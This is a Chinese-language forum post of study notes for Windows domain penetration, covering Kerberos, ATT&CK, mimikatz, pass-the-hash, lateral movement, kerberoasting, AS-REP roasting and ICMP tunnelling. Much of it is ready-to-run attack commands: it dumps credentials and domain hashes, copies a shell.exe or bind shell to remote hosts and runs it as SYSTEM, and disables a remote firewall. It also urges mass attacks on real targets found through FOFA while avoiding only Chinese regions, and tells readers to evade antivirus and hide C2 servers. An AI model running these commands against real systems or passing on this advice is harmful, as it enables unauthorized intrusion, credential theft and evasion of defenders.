1.  首先 `客户端` 向 `密钥分发中心KDC`中的 `认证服务器AS`进行请求，AS 接受到请求后响应`客户端`并且返回一张票据 为 `TGT(伪造黄金票据位置)`
2.  `客户端` 拿着 `认证服务器AS` 返回的票据 TGT 再次向 `密钥分发中心KDC`中的`票据授予服务器TGS请求`, 这里 TGS 收到请求后响应 `客户端`返回一张票据 `ST(伪造白银票据的位置)`
3.  `客户端`拿着 `票据授权服务器TGS`返回的票据 `ST`向服务器发起请求，服务器接受到请求后响应客户端，如若成功则完成整套 `Kerberos认证流程`，否则将会中断。

整体流程大致如上，感觉还有挺多点需要去弄得，可参考文章如下  
[Kerberos 协议详解](https://blog.csdn.net/shuteer_xu/article/details/129253005)

要求：抓包分析，请务必把 ntlm 和 kerberos 协议中每个步骤看懂。然后写一篇总结文章出来

【内网基础】：看看 ATT&CK 攻击矩阵  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696671586190-97b4950e-bb43-4cb1-bf04-8ef8361a0736.png#averageHue=%23cec4b5&clientId=ud3001085-0583-4&from=paste&height=431&id=u692d3a28&originHeight=861&originWidth=1727&originalType=binary&ratio=2&rotation=0&showTitle=false&size=415943&status=done&style=none&taskId=u1d769e09-4b7b-42ac-875d-dc67fe021e7&title=&width=863.5)  
要求：能大概明白这个矩阵是个啥，通过这个矩阵能知道一次完整的渗透流程是啥样的

大致流程如下：

## ATT&CK 攻击矩阵

### 1.1 MITRE 简介

-   CVE 是一个公共的漏洞列表，也是由 MITRE 提供；
-   MITRE 是于 1958 年成立在麻省理工学院计算机实验室，是一家非营利性公共服务机构，为美国联邦政府提供工程和技术指导，包括国防情报、国土安全、网络安全、航空航天等；

### 1.2 ATT&CK 概述

-   `ATT&CK( Adversarial Tactics, Techniques and Common Knowledge )`，即对抗战术、技术和常识，它是一个站在攻击者的视角来描述攻击中各阶段用到的技术的模型。常见的应用场景主要有网络红蓝对抗模拟、网络安全渗透测试、网络防御差距评估、网络威胁情报收集等。
-   ATT&CK 框架可以理解为一个红队或者攻击者在攻击一个目标系统，他说用到的技术的路径。  
    1）比如首先通过钓鱼邮件发送一个附件，客户端那边去执行，通过钓鱼来实现持久化和权限提升；  
    2）窃取目标系统的账号和密码，通过网络环境发现、横向移动，来对整个网络实现漫游  
    3）最后窃取对方的网络数据。
-   MITRE 的 ATT&CK 框架 `基础元素为战术、技术和程序，为从网络威胁情报中收集**TTPS**`  
    1）`战术`：回答了攻击者想要实现的目标；  
    2）`技术或子技术`：展示了攻击者实际的攻击方式以及目标如何实现；  
    3） `程序框架`：解决了威胁行为者与攻击组织为达到目标所使用技术的特定应用。

实战在渗透测试人员可以根据 `ATT&CK` 中的高频技术对需求方企业进行安全测试，形成安全方案，以加固企业的安全性；在红蓝对抗中，无论是蓝方还是红方都可以使用 `ATT&CK` 框架，红方可以进行网络钓鱼、水坑攻击等技术，蓝方可以利用框架中的技术提前对系统网站做审计和防护工作。

### 1.3 ATT&CK 攻击矩阵框架

-   矩阵横轴表示战术（有 14 项战术）、纵轴表示技术（177 项技术 348 项子技术）、中间包括程序。

| **序号** | **战术** | **战术功能** |
| --- | --- | --- |
| 1   | 侦察  | 攻击方收集信息，以便未来的行动。包含主动和被动地搜集侦察技术。此类信息一般包含受害者组织、基础设施或人员 |
| 2   | 资源开发 | 建立攻击者行动所需资源，包含基础设施、攻击人员创建、购买/窃取用于支持目标定位的资源技术。 |
| 3   | 初始访问 | 攻击方试图进入目标网络，获取一个入口 |
| 4   | 执行  | 运行恶意代码 |
| 5   | 持久化 | 保持攻击立足点，获得永久的控制能力 |
| 6   | 权限提升 | 获取最高权限 |
| 7   | 防御绕过 | 避免被发现 |
| 8   | 凭证获取 | 窃取账号、密码、凭证等 |
| 9   | 发现  | 弄清对方网络环境 |
| 10  | 横向移动 | 内网漫游，攻击其他网络 |
| 11  | 搜集  | 收集感兴趣的数据 |
| 12  | 命令控制 | 试图与目标网络通信，操纵目标系统和网络 |
| 13  | 数据渗出 | 窃取数据并输出 |
| 14  | 影响  | 中断和破坏对手网络和数据，给对方网络造成伤害 |

参考：[https://blog.csdn.net/qq\_40216188/article/details/123106969](https://blog.csdn.net/qq_40216188/article/details/123106969)  
[https://attack.mitre.org/](https://attack.mitre.org/)  
【工具基础】：把 cobalt strike，msf 这两个 c2 工具玩熟

要求：能知道 c2 是什么意思，学会如何上线目标机器，以及如何用 shellcode 上线

# 内网渗透神器（Mimikatz）

【工具基础】：学会用 mimikatz 的使用，重点是如何用 mimikatz 抓密码。

```plain
mimikatz # log
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

直接获取 NTLM  
[](https://cdn.nlark.com/yuque/0/2023/png/12710625/1696681438644-ceb8b213-f10c-4ed6-b0b3-7b15608cb47e.png#averageHue=%23121212&clientId=ud3001085-0583-4&from=paste&height=273&id=ua28ef9f2&originHeight=545&originWidth=951&originalType=binary&ratio=2&rotation=0&showTitle=false&size=169002&status=done&style=none&taskId=ua0a141e9-7b70-4423-b8ea-7030434d6ad&title=&width=475.5)  
`sekurlsa模块`

```plain
sekurlsa::logonpasswords

抓取用户 NTLM 哈希
sekurlsa::msv

加载 dmp 文件，并导出其中的明文密码
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords full

导出 lsass.exe 进程中所有的票据
sekurlsa::tickets /export
```

`kerberos模块` - 提取票据

```plain
列出系统中的票据
kerberos::list
kerberos::tgt

清除系统中的票据
kerberos::purge

导入票据到系统中
kerberos::ptc 票据路径
```

`lsadump模块`

```plain
//在域控上执行查看域 domain.com 内指定用户 root 详细信息，包括 NTLM 哈希
lsadump::dcsync /domain:domain.coim /user:root

//(在域控上执行) 读取所有域用户的哈希值
lsadump::lsa /patch

//直接从系统文件 sam.hive 和 system.hive 文件获取 NTLM Hash
lsadump::sam /sam:sam.hive /system:system.hive

## 拓展方法，从本地 SAM 文件读取密码哈希
token::elevate
lsadump::sam
```

### PTH Hash 传递

**PTH，即 Pass The Hash，首先我们来说下为什么要使用 Hash 传递，一是目标主机在 win server 2012 之后，lsass.exe 进程中是抓不到明文密码的；二是随着信息安全意识的提高，弱口令情况逐渐降低，我们经常会遇到拿到 hash 却解不开的情况，综上，只要我们获取到 hash，我们依然可以正常登录。**  
`Msf进行Hash传递获取域控`

```plain
proxychains msfconsole
use exploit/windows/smb/psexec
set smbdomain wwl
set rhosts 192.168.223.10
set smbuser administrator
set smbpass 00000000000000000000000000000000:afffeba176210fad4628f0524bfe1942
run
```

同时也可以了解一下 mimikatz 抓密码的原理，从这个原理中可以知道 windows 安全的一些机制。

【信息搜集】：学习内网信息搜集方式，关注哪些信息是敏感的（我是谁？我是否在域中？是否有内网？等）。

```plain
1.winrs
winrs -r:http://IP:5985 -u:.\administrator -p:admin123 "whoami" # 执行单条命令
winrs -r:http://IP:5985 -u:.\administrator -p:admin123 cmd # 返回交互式 cmd


2.powershell
单条命令

Invoke-Command -ComputerName server01 -Credential domain01\user01 -ScriptBlock {Get-Culture}
交互式

Enter-PSSession -ComputerName 192.168.100.155 -Credential administrator
需要输入主机账户密码
可以使用票据注入执行
```

要求：总结文章，尽可能全面  
【横 向】 ：学 习 PTH（哈 希 传 递 攻 击），以及 KB2871997 补丁对其造成的影响要求  
NTLM 认证采用质询/应答 (Challenge/Response) 的消息交换模式。NTLM 既可用于域环境下的身份认证，也可以用于没有域的工作组环境。主要有本地认证和网络认证两种方式

## 横向渗透

【横 向】：利⽤ ipc，wmi，winrm 横向移动，务必学会

### IPC$连接

通过 ipc$，可以与目标机器建立连接。利用这个连接，不仅可以访问目标机器中的文件，进行上传、下载等操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。  
命令如下

```plain
##这里前提是知道用户和密码，也可以用 psexec 模块
net use \\IP\ipc$ "password" /user:"username" //建立链接
net use
## dir 命令查看
dir \\IP\c$
## copy 赋值木马
copy C:\a.exe \\IP\C$ //复制 a.exe 到目标 C 盘
```

### `at命令执行木马`

```plain
net time \\IP
copy shell.exe \\IP\C$
at \\IP 18:53:00 C:\shell.exe  # 定义一个定期时间进行执行 shell.exe
```

### Schtask 命令

步骤如下，在 Windows Server 2008 之后，就不再存在 at 命令，可利用命令 `schtasks`

1.  与目标主机建立连接
2.  利用 copy 命令进行远程操作，复制木马到目标主机
3.  在目标主机创建计划任务，这里命名为 `backdoor`，该计划任务每分钟启动一次，且启动权限为`system`

命令如下  
这里

```plain
schtasks /create /s IP 地址 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f

schtasks /run /s IP 地址 /i /tn backdoor

schtasks /create /s IP 地址 /tn test /sc minute /mo 1 /tr "C:\Windows\System32\cmd.exe /c 'whoami > C:\result.txt'" /ru system /f
```

### SC 命令

```plain
sc \\[主机名/IP] create [servicename] binpath= "[path]"   #创建计划任务启动程序
sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\bind.exe"

sc \\WIN-ENS2VR5TR3N start bindshell  # 启动服务
```

`关闭防火墙命令`\-- 关闭防火墙

```plain
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start unablefirewall
```

【横 向】：学习 MS14-068、zerolog on、永 恒之 蓝、printnig htmare 这⼏个 经典漏洞的 exp 使⽤，对应版 本，能 了解⼀ 波原理 更好。要求：复现，

【横 向】：学习 kerberoast、as\_reproast 这 俩攻击 ⽅式 要求：复现，总结⼀ 篇⽂章

## kerberoast 攻击

什么是 Kerberoast 攻击呢，在实战环境中，攻击者为获取目标服务器权限，`设法破解Kerberos服务票据并重写它们的过程，不需要与靶机服务进行任何交互。`可以通过合法的活动目录访问`请求和导出`来离线破解服务票据，从而获取最终的明文密码。  
攻击步骤如下：

1.  攻击者提供一个正常域用户密码进行认证获得`TGT`
2.  攻击者使用该 `TGT`针对指定 `SPN请求`
3.  `KDC验证TGT`之后服务 Hash 加密的 `ST`
4.  最终攻击者 离线爆破`ST`

执行命令如下

```plain
在域控下打开 powershell 执行一下命令：
setspn -S Hacker/test.com kerberoasting
命令解释：
Hacker 是服务名
test.com 是域名
kerberoasting 是域用户名

查询所有 SPN 命令看看是否配置成功
setspn -q */*
```

`Kerberoating请求伪造服务`

```plain
GetUserSPNs.py 工具请求服务票据：
    Impacket 中的 GetUserSPNs.py 脚本可以请求注册于用户下所有 SPN 的服务票据，
    也可以请求注册于指定用户下的 SPN 服务票据。
#请求注册于用户下所有 SPN 的服务票据，并以 hashcat 能够破解的格式保存为 spn.txt 文件：
GetUserSPNs.py -request -dc-ip 10.211.55.100 'test.com/ruyu' -hashes :4c25ed57e37131073192a98148fbc30f -outputfile spn.txt
```

mimikatz 导出票据

```plain
mimikatz.exe "kerberos::list /export"  "exit"

## 拓展 Empire 下的 Invoke-Kerberoast.ps1
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat
```

下一步进行离线破解服务票据  
利用`kerberoast中的tgsrepcrack.py`

```plain
python2 tgsrepcrack.py password.txt xx.kirbi
## xx.kirbi 为票据信息

然后用 hashcat 进行爆破
hashcat -m 13100 hash.txt pass.txt
```

## AS-REP Roasting 攻击

在域中，对于域用户来说，如果设置不要求 `Kerberos预身份验证`，此时向域控制器 88 端口发送一个`AS_REQ`请求，此时域控会不作任何验证 便将 `TGT票据` 和 加密的 `Session-key`等信息返回。对收到的 `AS_REP`内容（enc-part 底下的 ciper，这部分使用用户 hash 加密的 session-key，然后通过离线爆破获取用户`Has)`进行重新组合，最终拼接成`Kerberos 5 AS-REP etype 23 (18200)`的格式，接下来可以使用`hashcat工具`对其破解，最终获得该用户的明文口令。  
命令如下  
工具链接：[https://github.com/HarmJ0y/ASREPRoast](https://github.com/HarmJ0y/ASREPRoast)  
提取 `Hash`命令如下 xiongshen zhenshuang

```plain
Rubeus.exe asreproast /format:john /outfile:hash.txt

SREPROast.ps1(域内机器) 脚本利用
    下载：

    修改powershell策略可以加载脚本
    Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
    命令:
    Import-Module .\ASREPRoast.ps1
    Invoke-ASREPRoast | select -ExpandProperty Hash
```

```plain
非域内机器的我这里的利用思路是通过 adfind 或者 bloodhound 查询不需要 Kerberos
预身份验证的账户，之后在使用 Impacket 下的 GetNPUsers.py 脚本获取指定用户的 Hash
加密的 Login Session Key。
Adfind 查询：
Adfind.exe -h 10.211.55.100 -u test\lisi -up Pass123 -f "useraccountcontrol:1.2.840.113556.1.4.803:=4194304" dn
```

`hashcat爆破`

```plain
hashcat64.exe -m 18200 hash.txt pass.txt --force
```

# 内网网络隧道多种方式

## ICMP 隧道

ICMP 隧道又称 `ICMP Internet控制报文协议`，用于在 IP 主机、路由器之间的传递控制消息 (网络是否连通)。ICMP 是通过 `Ping`命令访问远程计算机，建立 `ICMP隧道`，将 TCP/UDP 数据封装到 ICMP 的 PING 数据包中，从而绕过防火墙实现不受限制的访问。  
下载：

```plain
git clone https://github.com/inquisb/icmpsh.git #下载工具
```

### 总结拓展

-   学习委派机制及针对委派机制的攻击方式，包括复现非约束性委派、约束性委派和基于资源的约束性委派的攻击，总结文章。

**权限维持**：

-   理解黄金票据和白银票据的原理，包括 Sid History 后门、DSRM 后门、委派后门、AdminSDHolder 后门等权限维持技术。
-   学会从 Ntds.dit 导出域内密码。

**实战**：

-   结合现有的 exploit 与 FOFA 进行批量攻击，尝试获取域控权限。注意避免攻击中国、港澳台地区，且不泄露个人信息。可在邮件内部发布渗透文章。

**免杀**：

-   使用加壳、shellcode 混淆、白加黑、syscall、shellcode 分离、小众语言等免杀手段，要求通过 360、火绒杀软。重点研究 Cobalt Strike 免杀技巧，修改 Cobalt Strike 以实现上线等

**Windows API**：

-   尝试使用 Windows API 编写一些小工具，包括 C#、C++、Powershell 等语言。可参考开源项目，自己动手编写提权、权限维持、横向移动等工具。

**其他**：

-   隐藏 C2 服务器，如利用域前置、更改 sum

知识面很多，主要做一个总结积累，新人发帖，有误麻烦师傅指教。安全之路路漫漫，沉淀！
